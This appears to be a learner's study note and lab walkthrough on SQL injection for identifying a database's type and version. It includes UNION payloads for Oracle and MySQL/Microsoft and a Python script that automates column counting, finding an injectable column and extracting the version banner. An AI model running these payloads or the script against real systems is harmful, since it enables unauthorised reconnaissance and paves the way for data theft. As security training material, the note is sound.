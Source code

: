 # Querying database type and version
---
- Different databases provide different ways of querying their version. 
- You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

| Database | Query |
| --- | --- |
| Microsoft, MySQL | SELECT @@version |
| Oracle | SELECT * FROM v$version |
| PostgreSQL | SELECT version() |

For example, you could use a `UNION` attack with the following input:
```sql
' UNION SELECT @@version
```

This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: )
```

# Lab: SQL injection attack, querying the database type and version on Oracle
---
1. Use burpsuite to intercept and modify the request that sets the product category filter.
2. Determine the [[2. Determining columns required in an UNION attack|number of columns that are being returned by the query]] and [[3. Finding columns to inject in UNION attack|which columns contain text data]].
3. Verify that the query is returning `two` columns, both of which contain text, using payload like the following in the `category` parameter:
	- `' UNION SELECT 'a','a' FROM dual--`
4. Use the following payload to display the database version:
	- `' UNION SELECT banner,NULL FROM v$version--`

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
---
1. Use bupsuite to intercept and modify the request that sets the product category filter.
2. Determine the [[2. Determining columns required in an UNION attack|number of columns that are being returned by the query]] and [[3. Finding columns to inject in UNION attack|which columns contain text data]].
3. Verify that the query is returning `two` columns, both of which contain text, using a payload like the following in the `category` parameter:
	- `' UNION SELECT 'a','a'#`
4. Use the following payload to display the database version:
	- `' UNION SELECT @@version,NULL#`


```python
#!/usr/bin/env python3
# SQLi querying the database type and version on Oracle and MySQL.
import requests
import sys
from bs4 import BeautifulSoup

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def get_col(url):
    for i in range(1,10):
        sqli = f"' ORDER BY {i}-- "
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

def oracle_inject_col(url, number_col):
    for i in range(1,number_col+1):
        payload_list = ['NULL'] * number_col
        payload_list[i-1] = "'a'"
        sqli = f"' UNION SELECT {','.join(payload_list)} FROM dual--"
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" not in req.text:
            return sqli
    return False

def oracle_get_version(url, sqli):
    sqli1 = sqli.replace("'a'", "BANNER")
    sqli2 = sqli1.replace("dual", "v$version")
    req = requests.get(url+sqli2, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find_all('th')
        return result[4]
    else:
        return False
    

def mysql_inject_col(url, number_col):
    for i in range(1,number_col+1):
        payload_list = ['NULL'] * number_col
        payload_list[i-1] = "'a'"
        sqli = f"' UNION SELECT {','.join(payload_list)}-- "
        req = requests.get(url+sqli, verify=False, proxies=proxies)
        if "Internal Server Error" not in req.text:
            return sqli
    return False

def mysql_get_version(url, sqli):
    sqli1 = sqli.replace("'a'", "@@version")
    req = requests.get(url+sqli1, verify=False, proxies=proxies)
    if "Internal Server Error" not in req.text:
        soup = BeautifulSoup(req.text, 'html.parser')
        result = soup.find_all('th')
        return result[-1]
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        database = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: {} <url> <database_name>".format(sys.argv[0]))
        print("[-] Usage: {} http://example.com oracle".format(sys.argv[0]))
        sys.exit(1)

    if database == "oracle":
        num_col = get_col(url)
        if num_col:
            print("[-] The number of columns is...       [{}]".format(num_col))
            inject_col = oracle_inject_col(url, num_col)
            if inject_col:
                print("[-] Found the injectable columns...   [{}]".format(inject_col))
                get_version = oracle_get_version(url, inject_col)
                if get_version:
                    print("[-] Found the version information...  [{}]".format(get_version))
                else:
                    print("[-] Can't find the version!")
            else:
                print("[-] Can't find injectable column!")
        else:
            print("[-] SQLi attack not successful!")

    if database == "mysql":
        num_col = get_col(url)
        if num_col:
            print("[-] The number of columns is...       [{}]".format(num_col))
            inject_col = mysql_inject_col(url, num_col)
            if inject_col:
                print("[-] Found the injectable columns...   [{}]".format(inject_col))
                get_version = mysql_get_version(url, inject_col)
                if get_version:
                    print("[-] Found the version information...  [{}]".format(get_version))
                else:
                    print("[-] Can't find the version!")
            else:
                print("[-] Can't find injectable column!")
        else:
            print("[-] SQLi attack not successful!")
```